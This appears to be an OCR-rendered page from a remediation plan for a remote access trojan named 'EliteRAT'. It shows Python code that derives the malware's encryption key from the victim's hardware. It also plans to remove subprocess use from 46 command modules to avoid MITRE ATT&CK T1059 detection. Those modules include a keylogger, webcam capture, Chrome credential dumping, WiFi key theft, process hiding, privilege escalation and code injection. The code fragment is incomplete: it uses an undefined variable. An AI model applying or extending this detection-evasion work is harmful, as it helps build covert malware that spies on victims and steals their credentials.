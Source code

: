 **Step 2:** Update `Core/crypto_system.py`
```python
from .hardware_binding import HardwareID

class EliteCryptoSystem:
    def _derive_master_key(self) -> bytes:
        # Get hardware ID
        hw_id = HardwareID().get_hardware_id()
        
        # Create unique salt from hardware
        unique_salt = hashlib.sha256(
            hw_id.encode() + b'EliteRAT_v2_HardwareBound'
        ).digest()
        
        # CHANGED: iterations from 100000 to 600000 (OWASP 2023)
        kdf = PBKDF2(
            algorithm=hashes.SHA256(),
            length=32,
            salt=unique_salt,  # UNIQUE per system
            iterations=600000,  # OWASP 2023 recommendation
            backend=self.backend
        )
        
        return kdf.derive(combined)
```

**Validation:**
```python
# Test two systems have different keys
system1 = EliteCryptoSystem()
key1 = system1.master_key

system2 = EliteCryptoSystem()  # Different hardware
key2 = system2.master_key

assert key1 != key2, "Keys must be unique per hardware"
```

---

### FIX #3: Eliminate ALL Subprocess Usage

**Files to Fix:** 46 files in `Core/elite_commands/`  
**Current:** 46 files use subprocess  
**Target:** 0 files use subprocess  
**Research:** MITRE ATT&CK T1059 detection

**Commands Still Using Subprocess:**
```
elite_wifikeys.py, elite_vmscan.py, elite_ssh.py, elite_processes.py,
elite_sudo.py, elite_restart.py, elite_shutdown.py, elite_popup.py,
elite_lsmod.py, elite_freeze.py, elite_escalate.py, elite_inject.py,
elite_firewall.py, elite_location.py, elite_hostsfile.py, elite_hidefile.py,
elite_hideprocess.py, elite_drives.py, elite_lockscreen.py, elite_kill.py,
elite_keylogger.py, elite_installedsoftware.py, elite_environment.py,
elite_fileinfo.py, elite_webcam.py, elite_logintext.py, elite_username.py,
elite_webcamsnap.py, elite_webcamlist.py, elite_systeminfo.py,
elite_network.py, elite_screenshot.py, elite_privileges.py,
elite_shell.py, elite_socks_proxy.py, elite_port_forward.py,
elite_ps.py, elite_mkdir.py, elite_ls.py, elite_lsmod.py,
elite_mv.py, elite_rmdir.py, elite_sysinfo.py, elite_migrate.py,
elite_cp.py, elite_cat.py, elite_cd.py, elite_chromedump.py
```

